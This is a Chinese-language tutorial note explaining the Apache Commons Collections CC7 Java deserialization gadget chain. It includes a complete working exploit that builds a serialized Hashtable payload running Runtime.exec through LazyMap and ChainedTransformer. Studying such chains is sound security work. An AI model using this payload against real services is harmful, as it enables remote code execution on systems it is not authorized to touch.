










# 10 · 反序列化链 · CC7

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3；入口换成 Hashtable → equals → get，利用段与 CC5 相同

CC7与CC5相同更改了入口类，但利用链没变，还是从`Lazy.get()`入手

- 通过`AbstractMap.equals()`调用`get()`，其中的m便是可控的类

  

- 然后入口是`Hashtable.readObject()`，跟进`reconstitutionPut()`

  

  - 该方法中调用了`equals()`

    

  - 之后跟链的时候发现先调用的是`AbstractMapDecorator.equals`，再到`AbstractMap.equals()`中，因为`AbstractMapDecorator`继承了map接口，但还要找到实现类也就是`AbstractMap`

- 逻辑基本理顺，编写初步EXP，因为`AbstractMap`类不能序列化所以直接从入口类入手

  ```java
  Transformer[] transformers = new Transformer[] {
      new ConstantTransformer(Runtime.class),
      new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
      new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
      new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
  };
  ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  HashMap<Object, Object> map = new HashMap<>();
  Map lazymap = LazyMap.decorate(map, chainedTransformer);
  
  Hashtable<Object, Object> hashtable = new Hashtable<>();
  hashtable.put(lazymap, "value");
  
  serialize(hashtable);
  deserialize("ser7.bin");
  ```

  - 运行代码没有报错，但也没执行命令，在`readObject()`处打断点调试，发现没有进入for循环，因为tab[index]中的值为空，也就没有调用`equals()`

    

- 这里yso中的写法如下

  

  - 这里之所以要调用两次`Hashtable.put()`，是因为要在`readObject()`的for循环中调用两次`reconstitutionPut()`

    

  - 第一次调用该方法时没有调用`e.key.equals(key)`，因为tab[index]值为空，然后在下面被赋值

    

  - 然后第二次调用`reconstitutionPut()`时，成功进入for循环然后进行if判断，但是要调用想要的`equals()`，首先`&&`前的`e.hash == hash`要判断为真，此时e的值为`yy`，而Java中有一个hash碰撞bug：

    ```java
    "yy".hashCode() == "zZ".hashCode()
    ```

    

  - 所以如此赋值可以成功进入后面调用`AbstractMapDecorator.equal()`

    

  - 之所以后面又要删掉lazymap2里面的yy，是因为`HashTable.put()`中也会调用`equals()`，且还会增加一个yy键，所以在序列化时可以执行整体链但是在反序列化时则不行

    

- 为了避免在序列化时通过`HashTable.put()`调用`equals()`，还是像之前一样先不将整条链写完整，然后在序列化前再将链补全，所以最终的EXP如下

  ```java
  package CC7;
  
  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InvokerTransformer;
  import org.apache.commons.collections.map.AbstractMapDecorator;
  import org.apache.commons.collections.map.LazyMap;
  
  import java.io.*;
  import java.lang.reflect.Field;
  import java.util.AbstractMap;
  import java.util.HashMap;
  import java.util.Hashtable;
  import java.util.Map;
  
  public class CC7 {
      public static void main(String[] args) throws Exception {
  
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                  new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                  new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{});
  
          HashMap<Object, Object> hashmap1 = new HashMap<>();
          HashMap<Object, Object> hashmap2 = new HashMap<>();
  
          Map lazymap1 = LazyMap.decorate(hashmap1, chainedTransformer);
          hashmap1.put("yy", 1);
          Map lazymap2 = LazyMap.decorate(hashmap2, chainedTransformer);
          hashmap2.put("zZ", 1);
  
          Hashtable<Object, Object> hashtable = new Hashtable<>();
          hashtable.put(lazymap1, 1);
          hashtable.put(lazymap2, 2);
          hashmap2.remove("yy");
  
          Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
          Field iTransformersField = chainedTransformerClass.getDeclaredField("iTransformers");
          iTransformersField.setAccessible(true);
          iTransformersField.set(chainedTransformer, transformers);
  
          serialize(hashtable);
          deserialize("ser7.bin");
  
      }
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser7.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws Exception {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

- Gadget

  ```java
  Hashtable.readObject()
  Hashtable.reconstitutionPut()
  	AbstractMapDecorator.equals()
  		AbstractMap.equals()
              LazyMap.get()
                  ChainedTransformer.transform()
                          ConstantTransformer(Runtime.class)
                          InvokerTransformer.transform()
                              Class.getMethod
                              gerMethod.getRuntime()
                              Runtime.getRuntime().exec()
  ```
